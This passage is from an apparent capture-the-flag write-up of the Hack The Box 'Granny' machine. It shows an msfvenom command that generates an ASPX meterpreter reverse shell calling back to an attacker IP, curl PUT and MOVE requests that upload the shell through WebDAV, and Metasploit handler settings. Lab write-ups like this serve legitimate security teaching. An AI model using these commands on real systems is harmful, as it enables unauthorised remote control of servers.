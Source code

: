However, when I try to use the “_runas_” command to switch to that user it doesn’t work. Maybe User Account Control \(UAC\) is enabled and the “_runas_” command does not elevate your privileges. So I figured maybe I could get it working using PowerShell as explained in [this article](https://medium.com/@asfiyashaikh10/windows-privilege-escalation-using-sudo-su-ae5573feccd9), but PowerShell is not installed on the machine!

So all you can do is use the exploit to view the _user.txt_ and _root.txt_ flags. I however, like to get a privileged shell on each box I solve and so I’m going to use Metasploit to get a shell on this box.

## Extra Content: Metasploit Solution <a id="317c"></a>

I’m going to skim through this part since there are a ton of write ups out there that show how to solve this box using Metasploit.

First, create an ASPX meterpreter reverse shell.

```text
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.7 LPORT=8888 -f aspx > met-shell.aspx
```

Then upload the shell payload in the same way we did before.

```text
root@kali:~/Desktop/htb/granny# cp met-shell.aspx met-shell.txtroot@kali:~/Desktop/htb/granny# curl -X PUT http://10.10.10.15/met-shell.txt --data-binary @met-shell.txtroot@kali:~/Desktop/htb/granny# curl -X MOVE -H 'Destination: http://10.10.10.15/met-shell.aspx' http://10.10.10.15/met-shell.txt
```

Configure metasploit to receive the reverse shell.

```text
use exploit/multi/handler
set lhost tun0
set lport 8888
```

Confirm that the configuration was set properly using the “_options_” command.

![](../images/max/1023/1*URuv3JpitFcQosEb7qgPUg.png)
